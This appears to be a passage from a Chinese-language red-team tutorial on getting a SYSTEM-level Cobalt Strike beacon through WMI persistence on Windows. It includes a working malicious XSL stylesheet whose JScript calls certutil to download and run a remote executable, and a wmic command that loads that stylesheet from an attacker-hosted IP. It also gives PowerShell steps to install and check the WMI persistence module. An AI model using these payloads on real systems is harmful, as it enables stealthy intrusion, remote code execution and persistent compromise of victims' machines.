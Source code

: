 ![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08VU7YeXnWCic7fP0RlC8eh4icXSaRHCyhdOsgG0ClQKPFhqSJgABWbcpuuCM4a5MZl7ibkQ3Zna0euw/640?wx_fmt=png)

    随之, system 权限的 beacon 被正常弹回.

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08VU7YeXnWCic7fP0RlC8eh42YWs4tMMEb8Yb0L2ZI62txtniaJzzhyTHwfibibJLpLTbwU1lf2SlXxFQ/640?wx_fmt=png)

0x04 配合 certutil 达到自定义上线

  

  

    我们还可以使用 wmi 的远程加载功能.  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08VU7YeXnWCic7fP0RlC8eh4eoZL4eyL5iaowpRzVd34beNM8Aicg4pe7ndIgYwuErEN3fWCCYHyeO3A/640?wx_fmt=png)

    wmi.xsl 实现的功能很明了, 即 certutil 下载者.

```
#
1.  <?xml version='1.0'?>
2.   
3.  <stylesheet
4.   
5.  xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
6.   
7.  xmlns:user="placeholder"
8.   
9.  version="1.0">
10. 
11.<output method="text"/>
12. 
13.   <ms:script implements-prefix="user" language="JScript">
14. 
15.   <![CDATA[
16. 
17.   var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c certutil -urlcache -split -f <strong>http://*/load.jpg</strong> %temp%/load.exe & %temp%/load.exe & certutil.exe -urlcache -split -f http://*/load.jpg delete",0);
18. 
19.   ]]> </ms:script>
20. 
21.</stylesheet>
```

    修改 WMI-Persistence.ps1 脚本, 只需把 payload 部分换下就行, 别的不需要动.  

```
wmic osget /FORMAT:"http://192.168.3.68:80/wmi.xsl"
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08VU7YeXnWCic7fP0RlC8eh43SLwiclxswdpQeW5tRUuxYsbpHT128P9GvnZbpQfYSKfMiaPeB0rvsZQ/640?wx_fmt=png)  

```
#
1.  powershell -exec bypass
2.   PS > Import-Module .\WMI-Persistence.ps1
3.   PS > Install-Persistence
4.   PS > Check-WMI
5.   PS > Remove-Persistence  用完以后务必要记得随手删掉
```
